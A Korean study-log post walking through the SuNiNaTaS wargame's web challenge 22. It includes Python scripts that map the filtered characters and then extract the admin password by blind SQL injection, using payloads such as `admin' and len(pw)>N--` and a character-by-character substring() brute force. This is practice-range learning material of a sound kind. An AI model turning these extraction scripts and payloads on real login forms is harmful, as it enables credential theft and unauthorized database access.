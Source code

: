 ```yaml
---
layout: default
title: Day25
nav_order: 4

parent: Hacking Project - W4
grand_parent: P4C
---
```


##### 해당 게시글은 빡공팟 4기(with TeamH4C)와 관련되어 있습니다
-----

# > http://suninatas.com/

Web문제의 단계가 8번에서 22번으로 뻥튀기 되었는데 바로 blind sql injection이었다.  
dreamhack과 구글링을 이용해서 시도해보았다.

## challenge 22

![image-20220512163438440](../img/image-20220512163438440.png)

장르는 소개되어 있다시피 블라인드 인젝션이고 필터링을 적용 시킨 듯 하다. 필터링이 될 경우에는 "No hack" 이 출력되고, 로그인이 실패라면 "False", 성공하면 "OK"가 출력된다. 어떤 식으로 필터링이 되는지는 모르겠지만 위에 적힌 단어 이외에도 대부분이 필터링된다. 
"No hack" 이 뜨는 것을 기준으로 필터링이 되는 것을 알아보면

`(`,`and`,`||`,`=` ,`^`, ... 

몇 개 시도를 안 해봤지만 노가다 성이 짙어 보여 가능한 기호들이 무엇이 있는지 파이썬을 이용해서 알아보기로 했다.

```python
import requests

def request(uid,upw):
	url = f'http://suninatas.com/challenge/web22/web22.asp?id={uid}&pw={upw}'
	response = requests.get(url)
	return response


for i in range(33,128):
	uid = 'guest'
	upw = chr(i)
	response = request(uid,upw)
	if "No hack" not in response.text:
		print(chr(i),end=' / ')

print('\n')
```

아래는 결과 캡쳐이다.

![image-20220512172545181](../img/image-20220512172545181.png)

해당 결과를 보다가 `&`가 안되는데 된다고 뜨길래 직접 몇 개를 테스트하던 중에 문득 '대소문자 구분은 하나?' 싶어서 테스트를 해봤는데 `select`는 불가능하지만 s가 대문자인 `Select`는 "False"가 뜨는 것으로 보아 가능한 것으로 보인다. 근데 또 생각해보면 결과 값이 쿼리 문에 대한 결과가 아니라서 어떡하나 싶다.

![image-20220512175907046](../img/image-20220512175907046.png)

통신 간격 때문인지 `&` 기호에 대한 응답이 "No hack" 으로 오지 않을 때가 있어서 `sleep()`으로 간격을 두었다. 그리고 곰곰히 생각해봐도 SQL의 함수도 쓸 수가 없는데 도대체 어떡해야 하는 거지? 모르겠다.



<br>



혹시나 소스 코드에 필터링 방법에 대한 힌트가 있는지 보았는데 admin의 비밀번호를 찾아야 한다고 한다. `' or 1=1` 이런 건 안 통하고 sleep함수나 와일드 카드를 쓰라는 것 같은데... 다시 도전이다.

```html
<!-- Hint : guest / guest & Your goal is to find the admin's pw -->
<!-- M@de by 2theT0P -->
```



<br>



진짜 멍청했던 점이 자꾸 비밀번호 란에서 실패를 했는데 아이디 란에 시도를 안 했었다.  `--` 기호가 주석인 점을 기억해서 해봤더니 아래처럼 로그인 자체는 되는데 비밀번호는 모른다. 그리고 아이디 란에서는 대소문자 구분이 있어서 select 문이 불가능하다.

![image-20220512181053554](../img/image-20220512181053554.png)

그럼 어떤 식으로 진행해야 할지 생각하다가 `len()`과 같은 함수들을 이용해서 하나 하나 조각을 맞춰 보기로 했다. 아 그리고 위의 삽질에서 비밀번호를 대상으로만 확인을 했었기에 아이디에도 확인해보았더니

![image-20220512182748231](../img/image-20220512182748231.png)

`(` 기호가 가능해서 함수들을 사용할 수 있다는 점도 인지한 상태이다. 개발 단계에서 mysql을 써봤기에 몇몇 함수들을 알고 있고 `len()`과 `substr()`을 이용하면 되지 않을까 싶다.



<br>

먼저 비밀번호의 길이부터 찾았다.  비밀번호의 칼럼명은 소스 코드에서 주어진 name이`pw`길래 게싱.

```python
import requests

def request(uid):
	url = f'http://suninatas.com/challenge/web22/web22.asp?id={uid}&pw=1234'
	response = requests.get(url)
	return response

def find_len_pw():
	for num in range(1,30):
		uid = f'admin\' and len(pw)>{num}--'
		response = request(uid)
		if "False" in response.text:
			print("Finally I can get pw len: ",num)
			break

if __name__ == "__main__":
	find_len_pw()
```

결과를 보면 10 자리라고 한다.

![image-20220512183614730](../img/image-20220512183614730.png)

다음은 비밀번호를 찾아야 하는데 문자열의 특정 문자만 선택하는 `substr`을 이용해야 겠다.



<br>

아주 큰 문제가 생겼는데 아무리 코드를 돌려도 한 글자도 맞추지 못했다. 쿼리문에 대한 결과문은 "False"로 나와서 필터링에 걸리지는 않는데 아무래도 어딘가 문제가 있다.

찾아보니 `substr`이 아닌 `substring`을 쓰는 DBMS가 있었다. `mssql` 이라고 하는데 이 녀석도 주석을 `--` 로 쓴다.
{: .text-red-000}

일단 1차적으로 함수가 문제였고 2차적으로 문자열 인덱싱에서 0번이 시작이 아니였다.
{: .text-red-000}



<br>



python으로 항상 `from pwn import *`을 가장 많이 썼었는데 최근 들어 `import request`를 더 많이 써보는 것 같다. 안 될 때마다 갈아 엎었더니 너무 시간이 오래 걸렸다.

```python
import requests

def request(uid):
	url = f'http://suninatas.com/challenge/web22/web22.asp?id={uid}&pw=1234'
	response = requests.get(url)
	return response

def find_len_pw():
	for num in range(1,30):
		uid = f'admin\' and len(pw)>{num}--'
		response = request(uid)
		if "False" in response.text:
			print("Finally I can get pw len: ",num)
			break
	return num

def solve(len_pw):
	
	res = ""
	for idx in range(1,len_pw+1):
		for i in range(33,127):
			uid = f'admin\' and substring(pw,{idx},1) = \''+chr(i)+'\'--'
			response = request(uid)
			if "OK" in response.text:
				print(f"Wait! I find {idx}'s letter : ",chr(i))
				res += chr(i)
				break
	print(res)

if __name__ == "__main__":
	len_pw = find_len_pw()
	solve(len_pw)
```



결국에 이렇게 풀어버렸다~!

![image-20220512185835110](../img/image-20220512185835110.png)

<br>
<br>
<br>

-----
# > 한번 알아보았습니다.

이번 챌린지를 풀다가 `sqlmap`이라는 툴을 발견했다.  
파이썬으로 만들어진 이 툴은 공격 웹사이트에 존재하는 DB 정보를 얻어낼 수 있었다.  
추후 기회가 되면 직접 써봐야겠다.